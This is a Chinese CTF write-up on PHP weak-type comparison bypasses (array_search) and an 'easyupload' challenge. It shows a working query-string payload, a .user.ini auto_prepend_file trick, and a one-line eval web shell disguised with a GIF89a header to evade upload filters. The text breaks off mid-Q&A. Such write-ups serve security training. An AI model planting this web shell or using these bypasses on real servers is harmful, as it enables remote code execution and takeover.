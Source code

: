 #### 第四个判断

 `if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))`

- 同样是三个条件，逐一满足就好：{"n":[[1],0]}

#### 第五个判断

```php
$d = array_search("DGGJ", $c["n"]);
$d === false?die("no..."):NULL;
foreach($c["n"] as $key=>$val){
    $val==="DGGJ"?die("no......"):NULL;
}
$key2 = 1;
```

这里有两个矛盾的点，即要使得array_search()函数能够找到“DGGJ”，又要元素的值不包含“DGGJ”；这样的话，就需要绕过array_search()这个函数。

这里就需要了解array_search函数的特性，其作用是在数组中查找元素，并返回其下标。而这个函数在进行元素查找的过程中进行的比较是==而非===，因此同样采用弱类型比较的特性，在php中`“字符串”==0`是成立的。

所以payload：`?a=1e9&b=53724&c={"m":"2023a","n":[[],0]}`

### easyupload

名字叫easy，其实一点也不easy。攻防世界仅有四千多人解出就可见其难度。

官方的writeup表示需要利用fastcgi的.user.ini特性进行RCE；

.user.ini实际上就是一个可以由用户“自定义“的php.ini,而且和php.ini不同的是，.user.ini是一个能够被动态加载的ini文件。也就是说修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

在.user.ini中配置：

```solidity
auto_prepend_file=m0cr1fan.jpg
```

m0cr1fan.jpg是要包含的文件。不过前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了。

需要绕过的点有：

>
>
>- 检查文件内容是否有php字符串
>  - 使用短标签绕过：`<?=eval($_REQUEST['m1cr0fan']);?>`
>- 检查后缀中是否有htaccess或ph
>  - .htaccess是apache是配置文件
>- 检查文件头部信息
>  - GIF89a：是GIF图像文件的标识符
>- 文件MIME类型
>  - 用于描述文件的性质，例如：image/JPEG 图像

Q:为什么使用文件包含以后，后缀即使是jpg也能识别出php

A：PHP 解析器并不仅仅是根据文件扩展名来判断是否执行，而是查看文件的内容,将文件内容包含进去。

Q:为什么一句话木马有效，$_REQUEST()这个魔术方法在背后做出了怎样的贡献
